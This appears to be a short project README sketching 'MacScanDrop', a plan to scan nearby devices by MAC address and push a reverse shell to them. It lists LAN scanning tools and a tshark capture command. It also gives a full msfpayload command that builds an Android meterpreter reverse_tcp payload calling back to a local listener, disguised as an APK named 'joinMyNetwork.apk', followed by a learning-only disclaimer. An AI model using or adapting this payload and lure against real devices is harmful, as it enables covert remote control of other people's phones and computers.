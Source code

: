 # MacScanDrop

Idea
The idea here is to scan for devices in range of my own network. Sending out a request to all devices in range to join. In return I want to provide them with a reverse_tcp payload.

The one unique identifier would be MAC (media access control) address. Which we will SCAN for, and DROP a payload. Lets see how this pans out.

Problem
The currently known problems associated with this idea are;
    -Having a script running for a period of time
        This could be in a while loop for say 300 seconds
    -To prevent the req beign sent out again to the same device, save the MAC it into a file or db
        .txt file or a sql db, looking for the most efficient
    -heterogeneity issues
        If it is an android device wanting to connect, would have to wrap the payload into a .apk
    -Which CLI tools to use to scan the LAN
        wireshark, tshark, arp-scan, airmon-ng & airodump-ng


Current solution, more like ideas
while true ; do ./MacScanDrop.<extension> ; sleep 300 ; done

tshark -D (Print a list of the interfaces on which TShark can capture)
    wlan0 is on interface 2
tshark -i 2 -a [autostop] duration:300 -w [write] tshark-scan-collection.pcap

msfpayload android/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=4444 R > joinMyNetwork.apk


# This project is for learning and knowledge share to which I do no advocate or take upon any responsibility for illegal actions and/or damage performed or caused by individuals who use this information for purposes which it is not intended to be used.
